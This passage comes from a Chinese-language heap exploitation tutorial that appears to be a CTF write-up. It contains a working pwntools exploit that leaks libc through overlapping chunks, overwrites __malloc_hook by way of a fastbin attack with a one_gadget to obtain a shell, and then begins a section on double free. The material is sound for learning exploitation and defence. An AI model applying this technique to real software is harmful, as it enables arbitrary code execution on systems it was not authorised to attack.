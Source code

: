 ```python
# 因此chunk2的fd和bk都会指向main_arena，此时打印chunk1，打印的实际上是chunk1+chunk2两个块，因此可以打印出chunk2的fd和bk，并由此得出&main_arena、libc_addr。
allocate(0x80)
allocate(0x80)
allocate(0x80)
allocate(0x20) # 没有这个 做不出来 挺怪的
free(1)
fill(0, 0x90, b'a'*0x80 + p64(0) + p64(0x121))
allocate(0x110)
payload = b'a'*0x80 + p64(0) + p64(0x91) + b'c'*0x80 
fill(1, len(payload), payload)
free(2)
dump(1)
main_arena = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x58
info('the addr of main_arena is {}'.format(hex(main_arena)))
libc_addr = main_arena - 0x3c4b20
info('the libc addr is {}'.format(hex(libc_addr)))
fake_chunk_addr = libc_addr + 0x3c4aed
info('the fake_chunk_addr is {}'.format(hex(fake_chunk_addr)))
malloc_hook = libc_addr + 0x3c4b10
info('the addr of malloc_hook is {}'.format(hex(malloc_hook)))

# 接下来是fastbin attack
allocate(0x80) # 还原
# 此时到这里 前面几个chunk不管了 接下来是以chunk4开始的fast bin大小的chunk
allocate(0x60) # chunk4
allocate(0x60) # chunk5
free(5)
payload = b'd'*0x60 + p64(0x70) + p64(0x71) + p64(fake_chunk_addr)
fill(4, len(payload), payload)
allocate(0x60) # 还是chunk5
allocate(0x60) # chunk6

one_gadget = 0x4526a
payload = b'a'*(0x23 - 0x10) + p64(libc_addr + one_gadget)
fill(6, len(payload), payload)

allocate(0x10)
sh.interactive()
```

### Double Free

顾名思义，也就是将一个已经在`fastbins`里面的`chunk`再次添加到`fastbins`里面去，添加完成后就会有两个同样的`chunk`在一个`bins`里面。

比如：

```c
void* chunk1 = malloc(0x10);
void* chunk2 = malloc(0x10);

free(chunk1);
free(chunk2);
free(chunk1);
```
